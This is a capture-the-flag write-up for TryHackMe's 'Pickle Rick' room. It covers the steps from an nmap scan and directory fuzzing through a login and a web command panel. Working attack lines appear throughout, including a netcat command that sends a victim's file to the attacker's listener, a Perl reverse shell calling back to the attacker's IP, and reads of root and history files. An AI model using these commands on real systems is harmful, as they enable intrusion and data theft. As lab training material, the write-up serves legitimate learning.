










# Pickle Rick

**Tools: nmap, dirsearch, netcat.**

Because TryHackMe's machines don't have specific IPs assigned to them (and I had to restart my instance during the CTF, thus changing its IP), I'll simply use \<targetIP> where you should put the target's IP.

We begin with the nmap scan:  
`nmap -Pn -sC -sV --min-rate=10000 <targetIP>`



Ports 22 (SSH) and 80 (HTTP) are open. Taking a look at the webpage, we see the following:



So we're tasked with finding 3 flags (ingredients). Looking at the page's source, we also see this:



We'll save the username for later. Now we can run a fuzzer, such as dirsearch:  
`dirsearch -u http://<targetIP>`


  
The robots.txt file shows us 'Wubbalubbadubdub'. The login.php brings us a login form, we can try to authenticate using the username we've just found, and maybe the string from the robots file as the password...
  

  
We're able to login with those credentials. In the webpage we see a Command Panel. In the www-data user root directory, we can see a txt file containing a 'super secret ingredient', which we can read directly from the browser - this is our first ingredient.  
`http://<targetIP>/Sup3rS3cretPickl3Ingred.txt`


  
For the next steps, keep in mind that the 'cat' command is disabled for this command panel, so we can't easily read the files. After some manual enumeration, I found the 'second ingredients' file at /home/rick, so I've managed to send this file to my VM through a quick netcat reverse shell.

In your machine start a netcat session:  
`nc -vnlp 9003 > file.txt`



Then in the command panel:  
`/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'`



Simply read the file.txt to grab the second ingredient.  
Using sudo -l shows us that we can run everything with 'sudo'.



I've tried quite a few creative ways to grab the flag from the command panel, but nothing worked. I've decided to start a reverse shell.  
In your machine start a netcat session:  
`nc -vnlp 9003`

Then in the command panel, you can run this perl revshell (just change the IP to your VPN's IP):  
```
perl -e 'use Socket;$i="<yourIP>";$p=9003;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



Now with the reverse shell in our machine, we can spawn a fully interactive shell (for the sake of it, I always do this):  
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, after some previous enumeration, I've seen that inside the /home/ubuntu there are some hidden files (which we can see by using the 'ls -la' command), one of them is the .bash_history, and if we read this file we'll be able to grab the 3rd ingredient.  
`cat /home/ubuntu/.bash_history`

Another way of doing this is by reading the txt file from the '/root' directory.
